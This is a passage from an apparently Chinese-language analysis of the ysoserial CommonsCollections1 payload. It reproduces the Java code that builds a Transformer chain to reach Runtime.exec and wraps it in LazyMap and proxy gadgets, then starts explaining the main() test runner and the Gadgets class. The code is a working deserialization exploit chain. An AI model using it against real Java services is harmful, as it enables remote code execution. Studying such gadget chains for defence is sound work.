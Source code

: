         // 这里重写父类 ObjectPayload 的 getObject()，返回值就是
    	public InvocationHandler getObject(final String command) throws Exception {
    		final String[] execArgs = new String[] { command };
    		// inert chain for setup
    		final Transformer transformerChain = new ChainedTransformer(
    			new Transformer[]{ new ConstantTransformer(1) });
    		// real chain for after setup
    		final Transformer[] transformers = new Transformer[] {
    				new ConstantTransformer(Runtime.class),
    				new InvokerTransformer("getMethod", new Class[] {
    					String.class, Class[].class }, new Object[] {
    					"getRuntime", new Class[0] }),
    				new InvokerTransformer("invoke", new Class[] {
    					Object.class, Object[].class }, new Object[] {
    					null, new Object[0] }),
    				new InvokerTransformer("exec",
    					new Class[] { String.class }, execArgs),
    				new ConstantTransformer(1) };
    
    		final Map innerMap = new HashMap();
    
    		final Map lazyMap = LazyMap.decorate(innerMap, transformerChain);
    
    		final Map mapProxy = Gadgets.createMemoitizedProxy(lazyMap, Map.class);
    
    		final InvocationHandler handler = Gadgets.createMemoizedInvocationHandler(mapProxy);
    
    		Reflections.setFieldValue(transformerChain, "iTransformers", transformers); // arm with actual transformer chain
    
    		return handler;
    	}
    
    	public static void main(final String[] args) throws Exception {
            // 每个 payload 都有 main，且都需要调用 PayloadRunner.run()
            // 用于直接从本地命令行来执行该 payload，也就是用于测试的
    		PayloadRunner.run(CommonsCollections1.class, args);
    	}
    
    	public static boolean isApplicableJavaVersion() {
            return JavaVersion.isAnnInvHUniversalMethodImpl();
        }
    }
    
    ```

    正如注释所说，分析分为两个方向，一个是其链的构造逻辑，还有一个是其 `main()` 的逻辑。链条的构造一般都比较清楚，最终返回的是整个链条的 kick-off，那么刚接触这个类时，主要的关注点就是这个 `main()` 是做什么的。
    跟进发现其是用于本地测试用的，也就是测试这个链条是否可以成功执行的。这里可以暂时放一下。

2. 那么先来分析一下其链条的主要构造部分，可以看到其用到了 `Gadgets` 这个类，来跟进一下这个类：